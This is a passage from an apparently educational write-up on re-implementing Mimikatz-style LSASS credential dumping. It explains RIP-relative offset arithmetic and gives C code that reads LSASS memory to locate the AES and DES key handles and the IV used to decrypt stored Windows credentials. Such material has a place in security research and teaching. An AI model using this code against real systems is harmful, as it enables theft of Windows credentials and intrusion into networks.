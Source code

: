 
Keep in mind that we're applying each types offset to the base address, and also dont forget that the DES address is negative.

Then from here we can apply the relative offset from the next instruction, exactly like we did for the LogonSessionList.  

```c

	PKIWI_BCRYPT_HANDLE_KEY hAesKeyRemote = NULL;
	PKIWI_BCRYPT_HANDLE_KEY hDesKeyRemote = NULL; // remote address of struct

	if (!ReadProcessMemory(hTarget, ((BYTE*)pKeyBase + AESKeyOffset + 4 + hAesKeyOffset), &hAesKeyRemote, sizeof(hAesKeyRemote), &written)) {
		printf("Could not retr AES Offset to BCRYPT_KEY_HANDLE");
		return;
	}
	if (!ReadProcessMemory(hTarget, ((BYTE*)pKeyBase - DESKeyOffset + 4 + hDesKeyOffset), &hDesKeyRemote, sizeof(hDesKeyRemote), &written)) {
		printf("Could not retr AES Offset to BCRYPT_KEY_HANDLE");
		return;
	}
	if (!ReadProcessMemory(hTarget, ((BYTE*)pKeyBase + IVOffset + 4 + IVRelativeOffset), &IV, sizeof(IV), &written)) {
		printf("Could not retr AES Offset to BCRYPT_KEY_HANDLE");
		return;
	}
	printf("AES Key Retr in LSASS @ 0x%p\n", hAesKeyRemote);
	printf("DES Key Retr in LSASS @ 0x%p\n", hDesKeyRemote);
```

But why is this one only adding 4, and not 7 like last time? Here this is because the offset calculated by Mimikatz takes us up EXACTLY to the offset.

What we see in ghidra and the unassembler is:

```
lea rdx, [rip + 0013bfef]
-------------------------------------
48 8d 15 [ ef bf 13 00 ] | [] = Where Mimikatz takes you
```
![asm](attachments/Pasted%20image%2020250903214604.png)

And so we're adding 4 so that we just straight to the first index of the red box.  Keep in mind the endianness of whats written in the assembler versus the interpreted version, hence why it may look out of order at first glance.

When we were finding LogonSessionList our code would find the offset by treating the entire assembly code as an array, but skipping over the first 3 opcodes.  Then it would apply the offset to the beggining since it wasnt storing any addresses between the opcodes and the relative address.

So now that we have our relative address we have the full pointer to our key objects  at `((BYTE*)pKeyBase + IVOffset + 4 + IVRelativeOffset)`.
